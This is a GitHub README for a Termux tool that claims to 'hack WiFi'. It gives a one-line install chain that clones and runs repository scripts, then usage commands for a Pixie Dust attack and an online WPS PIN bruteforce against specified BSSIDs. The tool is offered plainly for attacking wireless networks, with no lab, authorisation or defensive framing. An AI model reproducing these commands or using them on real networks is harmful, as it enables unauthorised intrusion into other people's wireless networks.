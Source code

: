 ## Ahsan wifihack 2
### Hack WIfi Using Termux! (Requires Root)



### Installation :

```bash
pkg update && pkg upgrade && pkg install git python && git clone https://github.com/MDAhsanullah/ahsanwifihackmain && cd ahsanwifihackmain && python Installer.py && apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/MDAhsanullah/ahsanwifihack && cd ahsanwifihack && ls $$ sudo python ahsanwifihack.py -i wlan0 -K
```

#### Running : 
```bash
sudo python ahsanwifihack/ahsanwifihack.py -i wlan0 -K
```

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ahsanwifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ahsanwifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ahsanwifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
